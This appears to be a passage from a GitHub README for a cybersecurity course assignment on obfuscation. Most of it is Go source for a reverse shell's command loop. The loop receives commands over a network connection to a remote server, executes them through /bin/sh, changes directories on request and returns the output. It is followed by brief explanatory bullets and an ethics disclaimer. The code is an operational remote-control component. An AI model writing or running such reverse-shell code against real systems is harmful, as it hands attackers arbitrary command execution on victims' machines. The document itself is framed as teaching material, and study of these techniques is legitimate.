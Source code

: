 ```golang
    }

    command := strings.TrimSpace(message)

    if command == "exit" {
        break
    } else if strings.HasPrefix(command, "cd ") {
        dir := strings.TrimSpace(strings.TrimPrefix(command, "cd "))
        err := os.Chdir(dir)
        if err != nil {
            fmt.Fprintf(conn, "Error: Failed to change directory: %s\n", err)
        } else {
            fmt.Fprintf(conn, "Success: Directory changed to: %s\n", dir)
        }
        continue
    }

    cmd := exec.Command("/bin/sh", "-c", command)
    out, err := cmd.CombinedOutput()
    if err != nil {
        fmt.Fprintf(conn, "Error: Failed to execute command: %s\n", err)
    }
    fmt.Fprintf(conn, "Output:\n%s\n", out)
}
```
- The connection is established, and the program waits for commands from the remote server.
- It can handle basic commands like cd to change directories and any shell command.
- The output of the commands is sent back to the server.


## Security and Ethical Consideration:
 It’s important to understand that this code is designed for educational purposes to demonstrate polymorphic techniques and reverse shell functionality. The misuse of such techniques for malicious activities is illegal and unethical. Always ensure that you have permission before running or developing such software.

## Task desctiption
Detailed task description and audit questions can be found [here.](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/obfuscator)